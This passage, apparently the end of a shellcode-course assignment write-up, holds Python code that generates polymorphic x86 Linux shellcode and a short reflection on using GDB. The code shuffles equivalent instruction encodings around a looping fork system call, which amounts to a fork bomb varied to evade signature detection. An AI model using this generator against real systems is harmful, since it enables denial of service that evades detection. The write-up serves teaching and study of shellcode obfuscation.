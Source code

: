     init_ecx = ["\\x31\\xc9", "\\xc4\\xe2\\x70\\xf2\\xc9", "\\x6a\\x??\\x59\\x80\\xe9\\x??", "\\x83\\xc1\\x??", "\\x83\\xe9\\x??", "\\x6a\\x??", "\\x59"];
    shuffle(init_ecx)
    par = randint(1, 127)
    ecx = "".join(init_ecx[0])
    ecx = ecx.replace("??", str(format(par, '02x')))

    init_edx = ["\\x31\\xd2", "\\xc4\\xe2\\x68\\xf2\\xd2", "\\x6a\\x??\\x5a\\x80\\xea\\x??", "\\x83\\xc2\\x??", "\\x83\\xea\\x??", "\\x6a\\x??", "\\x5a"];

    shuffle(init_edx)
    par = randint(1, 127)
    edx = "".join(init_edx[0])
    edx = edx.replace("??", str(format(par, '02x')))

    init_blk = [eax, ebx, ecx, edx]
    shuffle(init_blk);
    setup_blk=["\\xb0\\x02" ];

    jmp_adj = format((255 - byte_len(init_blk) - byte_len(setup_blk) - 3), '02x')
    shellcode="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+jmp_adj;

    return shellcode
{%endhighlight%}

{%asciicast 198409 %}

## Lessons learnt

This assignment was the most complex one in terms of solutions. Creating a
single poliymorphic variation was easy, but generating some arbitrary
shellcodes requires a lot of attentions in not mangling program logic flow.

Another important thing I learnt in this assignment is that, GDB is one of my
best friends and the .gdbinit file with the hook-stop function is one of the
customization you have to care most of it.
